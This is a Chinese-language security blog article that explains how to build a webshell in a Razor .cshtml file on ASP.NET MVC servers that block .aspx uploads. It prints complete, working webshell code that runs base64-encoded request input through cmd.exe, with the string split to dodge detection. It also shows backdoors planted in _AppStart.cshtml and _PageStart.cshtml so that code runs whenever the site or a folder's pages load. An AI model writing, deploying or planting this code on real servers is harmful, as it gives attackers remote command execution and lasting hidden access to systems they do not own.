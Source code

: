 0x01 背景
=======

起因.NET安全矩阵微信群里的某位师傅遇到aspx文件不执行的情况，老版本的IIS里可以上传ascx/ashx/asmx等扩展名，到了IIS后续更新的版本不再支持对ascx的解析访问，但.NET 3.5以后版本的WebForm 和.NET MVC3版本之后的运行环境里除了能解析aspx之外还能解析cshtml文件名，所以感觉有必要打造一个cshtml扩展名的webshell，帮助大伙在特殊场景下通过上传cshtml扩展名获取webshell。

0x02 介绍
=======

.NET MVC 3.0为微软忠实的粉丝们提供了两种共存的视图引擎，WebForm Engine（.aspx）和 Razor Engine（.cshtml），默认情况下框架从现有 .NET Page页面、Master母版页 和ascx用户控件类型中继承的自定义类型作为视图，引擎的变化直接导致语法发生变化，aspx 中经常使用 &lt;% %&gt;这种代码样例，如果写这段代码的人没有良好的缩进和对齐习惯的话，一段逻辑较为复杂的代码就会堆砌着杂乱无章的&lt;% %&gt;匹配它们就是一件头疼的事情，会让读者望而生畏。而在cshtml中则改为@{ } 这种更为简洁的写法，"@"来标记一段C#代码，并帮我们进行了内部的闭合，并且支持与HTML混写。 它们之间的关系如下图

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-48b4eb660d617241a71b3f88fa569b8fae50d659.png)

目前只能在 MVC3 或更高版本等支持 Razor 的框架里使用 cshtml，@是Razor中的一个重要符号，它被定义为Razor服务器代码块的开始符号。例如视图中直接写C#代码输出日期

```php
1 <p>@DateTime.Now.ToString()</p>
```

在Razor视图引擎中，我们可以使用@{code}来定义一段**代码块**。Razor支持代码混写，在代码块中插入HTML、在HTML中插入Razor语句都是可以的，代码如下

```php
@{ var myMessage = "dotnet安全矩阵"; }
<html>
<body>
    <p>欢迎关注: @myMessage</p>
</body>
</html>
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-d09fc4a4109c5a2c0992783a67cb72b87f1cd02e.png)

另外介绍一下Razor引擎注释符，服务器端注释为：@\* 注释内容 \*@，如下

```php
@*<p>你好，Razor引擎！</p>*@
```

0x03 实现Webshell
===============

Razor视图引擎获取外部参数的方式主要有3种，第一种使用传统WebForm窗体的System.Web.HttpContext对象Request方法获取

```php
System.Web.HttpContext.Current.Request["content"]
```

第二种使用System.Web.Mvc.WebViewPage类的属性HttpContextBase获取

```php
@Context.Request["content"]
```

第三种还可以直接使用WebPageRenderingBase类定义的虚方法Request获取

```php
Request["content"]
```

实现Webshell的代码不多，只是在@{}代码块里加上启动进程的功能即可，值传递的方式依旧采用base64编码，访问/dotnet.cshtml?content=dGFza2xpc3Q= 即可返回tasklist执行后的结果数据，完整的demo如下

```php
@{
    if (Request["content"] != null)
    {
        String content = System.Text.Encoding.GetEncoding("utf-8").GetString(Convert.FromBase64String(System.Web.HttpContext.Current.Request["content"]));
        System.Diagnostics.Process p = new System.Diagnostics.Process();
        p.StartInfo.FileName = "c@m@d.e@x@e".Replace("@", "");
        p.StartInfo.Arguments = "/c " + content;
        p.StartInfo.UseShellExecute = false;
        p.StartInfo.RedirectStandardOutput = true;
        p.StartInfo.RedirectStandardError = true;
        p.Start();
        byte[] data = System.Text.Encoding.Default.GetBytes(p.StandardOutput.ReadToEnd() + p.StandardError.ReadToEnd());
        Response.Write("" + System.Text.Encoding.Default.GetString(data) + "");
    }
    else
    {
        System.Web.HttpContext.Current.Response.Write("<p style='color:#ff0000;text-align:center;'>example: dotnet.cshtml?content=ipconfig(base64)</p>");
        System.Web.HttpContext.Current.Response.Write("<p>1. 本程序仅供实验学习 Microsoft .NET，请勿违法滥用！</p>");
        System.Web.HttpContext.Current.Response.Write("<p>2. 适用场景：.NET FrameWork3.5以上及.NET MVC5框架均适用！</p>");
        System.Web.HttpContext.Current.Response.Write("<p>3. 公众号：dotNet安全矩阵</p>");
        System.Web.HttpContext.Current.Response.Write("<p>4. 二维码：<img src=\"https://github.com/Ivan1ee/NET-Deserialize/raw/master/gzh.jpg\" width=\"200\" height=\"200\"/></p>");
    }
}
```

0x04 两个技巧
=========

4.1 站点全局文件\_AppStart.cshtml
---------------------------

某些场景下可能希望在站点上的任何页面运行之前运行一些代码，有点类似于全局静态变量的意思，.NET MVC3之后的Razor视图引擎提供了一个特殊文件\_AppStart.cshtml可以达成此操作，如果此文件存在它会在站点中的任何页面第一次被请求时运行，功能上与 Global.asax 文件里的 Application\_Start方法雷同，差别在于Global.asax里的Start先执行然后才到\_AppStart，下图显示了\_AppStart.cshtml文件的工作流程。

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-731a2a10c7f8dddaf53933597cda304e4bc5e55c.png)  
有两点注意事项需要重点强调一下，第1点\_AppStart.cshtml文件必须位于站点根目录下才能起到预期作用；第2点 写在\_AppStart.cshtml代码一定要确保无误，否则网站将无法正常运行。介绍完基本使用的场景后跟随笔者利用好整个特性打造一款定制的后门，由于启动的顺序早于WebPage，所以获取不到HttpContext上下文，因此也就不能通过外部传入参数交互命令执行，笔者硬编码calc，启动网站就会弹出计算器，代码如下

```php
@{
    string txt = "calc";
    System.Diagnostics.Process p = new System.Diagnostics.Process();
    p.StartInfo.FileName = "c@m@d.e@x@e".Replace("@", "");
    p.StartInfo.Arguments = "/c " + txt;
    p.StartInfo.UseShellExecute = false;
    p.StartInfo.RedirectStandardOutput = true;
    p.StartInfo.RedirectStandardError = true;
    p.Start();
}
```

4.2 视图全局文件\_PageStart.cshtml
----------------------------

\_PageStart.cshtml就像您可以使用\_AppStart.cshtml在站点中的页面运行之前编写代码一样，您可以编写在某个文件夹中的任何页面运行之前运行代码。这对于为文件夹中的所有页面设置相同的布局页面或在运行文件夹中的页面之前检查用户是否已登录等事情很有用，下图显示了\_PageStart.cshtml页面的工作流程。当一个页面的请求进入时，ASP.NET 首先检查*\_AppStart.cshtml*页面并运行它。然后 ASP.NET 检查是否存在\_PageStart.cshtml页面，如果有，则运行该页面。

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-479d824ac056154aaef392c6d9824e541cd11e81.png)  
另外可以将\_PageStart.cshtml文件放在站点的根目录和任何子文件夹中，当请求页面时，最靠近站点根目录的 \_PageStart.cshtml 文件先运行，然后再运行子文件夹中的 \_PageStart.cshtml 文件，依此类推，例如笔者在Content子目录里创建\_PageStart.cshtml，写入启动记事本进程代码以及创建一个ViewPage1.cshtml，访问 /Content/ViewPage1.cshtml时优先触发\_PageStart.cshtml里的代码执行。

```php
@using System.Diagnostics
@{
    Process.Start("notepad");
}
```

\_PageStart.cshtml和\_AppStart.cshtml有一点不同，可正常获取Request对象，因此可访问 /Content/ViewPage1.cshtml?content=dGFza2xpc3Q= 返回正常结果，代码如下

```php
@using System.Diagnostics
@{
    if (Request["content"] != null)
    {
        String content = System.Text.Encoding.GetEncoding("utf-8").GetString(Convert.FromBase64String(System.Web.HttpContext.Current.Request["content"]));
        System.Diagnostics.Process p = new System.Diagnostics.Process();
        p.StartInfo.FileName = "c@m@d.e@x@e".Replace("@", "");
        p.StartInfo.Arguments = "/c " + content;
        p.StartInfo.UseShellExecute = false;
        p.StartInfo.RedirectStandardOutput = true;
        p.StartInfo.RedirectStandardError = true;
        p.Start();
        byte[] data = System.Text.Encoding.Default.GetBytes(p.StandardOutput.ReadToEnd() + p.StandardError.ReadToEnd());
        Response.Write("" + System.Text.Encoding.Default.GetString(data) + "");
    }
    else
    {
        System.Web.HttpContext.Current.Response.Write("<p style='color:#ff0000;text-align:center;'>example: dotnet.cshtml?content=ipconfig(base64)</p>");
        System.Web.HttpContext.Current.Response.Write("<p>1. 本程序仅供实验学习 Microsoft .NET，请勿违法滥用！</p>");
        System.Web.HttpContext.Current.Response.Write("<p>2. 适用场景：.NET FrameWork3.5以上及.NET MVC5框架均适用！</p>");
        System.Web.HttpContext.Current.Response.Write("<p>3. 公众号：dotNet安全矩阵</p>");
        System.Web.HttpContext.Current.Response.Write("<p>4. 二维码：<img src=\"https://github.com/Ivan1ee/NET-Deserialize/raw/master/gzh.jpg\" width=\"200\" height=\"200\"/></p>");
    }
}
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-e335c00b0d7754a6f6e19fd4bd1eb4011bb3b3b3.png)

0x05 结语
=======

.NET MVC下还有很多有趣的技巧，如果对这些技巧感兴趣的话可以多关注我们的[博客](https://www.cnblogs.com/Ivan1ee/)、[公众号dotNet安全矩阵](https://mp.weixin.qq.com/s/VIsJlDmWGD0QcgBDDsRP9g)以及[星球](https://t.zsxq.com/04yFmii2b)，下一篇将继续分享 .NET相关的安全知识，请大伙继续关注。另外文章涉及的PDF和Demo以及工具已打包发布在星球，欢迎对.NET安全关注和关心的同学加入我们，在这里能遇到有情有义的小伙伴，大家聚在一起做一件有意义的事。